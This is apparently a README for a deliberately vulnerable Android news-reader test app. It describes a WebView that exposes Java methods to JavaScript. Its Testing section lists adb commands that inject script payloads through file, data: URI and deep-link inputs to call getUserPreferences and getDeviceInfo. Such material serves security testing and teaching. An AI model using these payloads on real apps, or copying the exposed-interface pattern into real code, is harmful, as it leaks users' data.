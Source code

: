 # oxo-android-ben41 News Reader App

## Attack Vector 3: JavaScript Interface Exposure with Malicious Content

**Vulnerability**: WebView has JavaScript enabled and exposes Android Java objects to JavaScript, allowing malicious web content to access sensitive app functionality and data.

**Key Issues**:
- `webView.addJavascriptInterface()` used without proper security
- JavaScript interface exposes sensitive methods to web content
- Malicious HTML/JavaScript can call Android methods directly
- Potential for data exfiltration and unauthorized actions

**Difficulty**: High

## Testing

```bash
# Test with external HTML file (not bundled with app)
# First, push your test HTML file to the device:
adb push test_exploit.html /sdcard/test_exploit.html
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "file:///sdcard/test_exploit.html"

# Test with data URI that contains JavaScript exploitation
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "data:text/html,<script>alert(NewsReader.getUserPreferences())</script>"

# Test device info extraction via data URI
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "data:text/html,<script>alert(NewsReader.getDeviceInfo())</script>"

# Test via deep link (most realistic attack vector)
adb shell am start -d "newsreader://article?url=data:text/html,<script>console.log(NewsReader.getUserPreferences())</script>&title=News"
```
